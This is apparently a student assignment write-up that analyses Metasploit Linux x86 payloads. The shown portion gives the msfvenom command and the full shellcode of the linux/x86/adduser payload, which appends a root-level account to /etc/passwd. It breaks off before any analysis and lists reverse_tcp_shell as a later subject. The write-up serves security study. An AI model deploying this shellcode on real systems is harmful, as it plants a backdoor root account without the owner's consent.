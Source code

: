 # Assignement 5: Analysis of three payloads generated byr metasploit #

Metasploit proposes many payloads presented below:

<a href="../assets/images/6_01.png"><img src = "../assets/images/6_01.png"></a>


We are going to carry out the analysis of the 3 following payloads: 
 - linux/x86/adduser,
 - linux/x86/reverse_tcp_shell,
 - linux/x86/chmod

For contextual matters, we don’t consider payloads needing meterpreter and consequently a connected link. 

## First payload: linux/x86/adduser: ##

We generate the code with  the instruction :
```c
msfvenom -a x86 --platform linux -p linux/x86/adduser -f c

No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```

The shellcode is pasted in a shellcode.c file in order to proceed to the analysis. **This file we’ll be used for the 3 analysis.**
